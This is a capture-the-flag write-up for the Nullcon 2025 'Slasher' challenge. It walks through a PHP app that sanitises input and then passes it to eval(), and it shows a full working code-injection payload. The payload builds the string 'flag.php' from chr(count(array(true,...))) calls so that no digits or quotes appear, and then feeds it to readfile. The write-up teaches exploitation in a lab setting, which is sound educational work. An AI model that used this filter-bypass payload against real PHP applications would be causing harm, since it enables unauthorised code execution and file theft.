



# WhiteDukesDZ - Nullcon CTF 2025 Writeup: Slasher



---

## Challenge Summary

This challenge presents a PHP web application that allows users to submit arbitrary input to be evaluated by the server using PHP's `eval()`. The application attempts to sanitize user input with several functions (`htmlentities`, `addslashes`, `addcslashes`), but still passes the processed input directly to `eval`, making it vulnerable to code injection. The goal is to craft input that bypasses these filters and executes code to retrieve the flag from the server.

## Application Analysis

After visiting challenge main page, we notice a button `view source`, when clicked we can see the PHP code of the page (see `challenge/index.php`)



After analyzing the code at `challenge/index.php`, we see that when a `POST` request is made with an `input` value:

    - The `input` must be non-empty and a scalar (integer, float, string, or boolean). If not, no further processing occurs.

    1. The input's special characters are converted to HTML entities using `htmlentities`, so characters like `<`, `>`, `&`, `'`, and `"` cannot be interpreted as HTML or JavaScript. Invalid UTF-8 is replaced with a safe character.

    2. The input is further escaped using `addslashes`, which adds backslashes before `'`, `"`, `\\`, and NULL bytes.

    3. The input is then processed by `addcslashes`, which escapes a custom set of characters: `+?<>&v=${}%*:.[]_-0123456789xb `;`.

    4. The fully sanitized input is passed to `eval` as PHP code (`$output = eval("$input;")`).

If `$output` is set, it is displayed on the page.

### Security Observations

- Note that `flag.php` is included at the top, so code injection could potentially access the flag if the filters are bypassed.

### Local Testing

To test payloads, you can modify the source code and set the desired value directly in the `$input` variable, then deploy the PHP file locally:

```sh
php -S localhost:8000 -t challenge/
```

Access the app at `http://localhost:8000`. For example, setting `$input = "readfile('flag.php')"` will display the flag locally (make sure to create a `flag.php` file in the same directory). You can view the output in the browser or inspect the page source (`CTRL + U`).

However, you cannot simply submit `readfile('flag.php')` as input through the web interface due to the sanitization and escaping steps. Instead, you need to craft a payload that, after all the filters, will result in the same code being executed by `eval` and reveal the flag.

---

## Solution

In PHP, some built-in functions can help us construct payloads that bypass character restrictions:

    - `implode(string $separator, array $array): string` — joins elements of an array into a single string, with an optional separator.

    - `chr(int $codepoint): string` — returns a one-character string for the given ASCII codepoint.

For example, in `readfile('flag.php')`, the function name `readfile` is allowed, but the string `'flag.php'` is blocked by the filters. To reconstruct it, we can use:

```php
implode(array(chr(102),chr(108),chr(97),chr(103),chr(46),chr(112),chr(104),chr(112)))
```
This produces the string `'flag.php'` eliminating some forbidden characters. So the final payload would be:

```php
readfile(implode(array(chr(102),chr(108),chr(97),chr(103),chr(46),chr(112),chr(104),chr(112))))
```

But we are still using numbers which are also forbidden, so we need to find a way to replace them.

    - `count(array $array): int` — returns the number of elements in an array. For example, `count(array(true))` is `1`, `count(array(true,true))` is `2`, and so on.

By using arrays of `true` values, we can build any number we need for the ASCII codes in `chr()` without ever writing a digit. This technique lets us construct any string character-by-character, fully bypassing the numeric and character restrictions.

For example, to build the string `'flag.php'`:

```php
readfile(implode(array(chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))))))
```

This lets us build the final payload for code execution without using any forbidden characters or digits. Put it as an input and submit, `CTRL + U` in your browser to see the flag.


